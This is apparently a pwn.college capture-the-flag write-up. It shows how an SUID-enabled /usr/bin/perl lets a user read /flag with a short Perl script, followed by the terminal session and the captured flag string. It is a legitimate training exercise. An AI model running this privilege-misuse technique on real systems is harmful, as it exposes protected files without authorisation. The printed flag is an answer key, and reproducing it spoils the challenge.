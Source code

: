 `perl`

`Perl` is a high-level, versatile programming language know for its powerful text processing capabilities. It was created by `Lary Wall` in the late `1980s`.

As the `SUID` bit has been set for the `/usr/bin/perl`, we can simply write a `perl` program that takes a `file` and prints its content.

```perl
my $filename = '/flag'; # a string variable that holds the path 
open($fh, '<', $filename); # '<' means read mode

while(my $line = <$fh>) #'my' is a keyword used to declare scoped variable
{print $line};

close($fh);
```


```bash
hacker@program-misuse-level-41:~$ /challenge/babysuid_level41 
Welcome to /challenge/babysuid_level41!

This challenge is part of a series of programs that
let you read the flag because they let you program anything.

I just set the SUID bit on /usr/bin/perl.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level41) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/perl!
hacker@program-misuse-level-41:~$ touch test.pl
hacker@program-misuse-level-41:~$ ls -l
total 8
drwxr-xr-x 2 hacker hacker 4096 Dec 30 07:37 Desktop
drwxr-xr-x 2 hacker hacker 4096 Jan  2 18:00 demo
-rw-r--r-- 1 hacker hacker    0 Jan  3 13:47 test.pl
hacker@program-misuse-level-41:~$ nano test.pl 
hacker@program-misuse-level-41:~$ perl test.pl 
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
        LANGUAGE = (unset),
        LC_ALL = (unset),
        LC_CTYPE = "C.UTF-8",
        LANG = "en_US.UTF-8"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").
pwn.college{s09O_XUBb08qHKT2ui3FhrqHo35.01M4EDL0AjNzQzW}
```

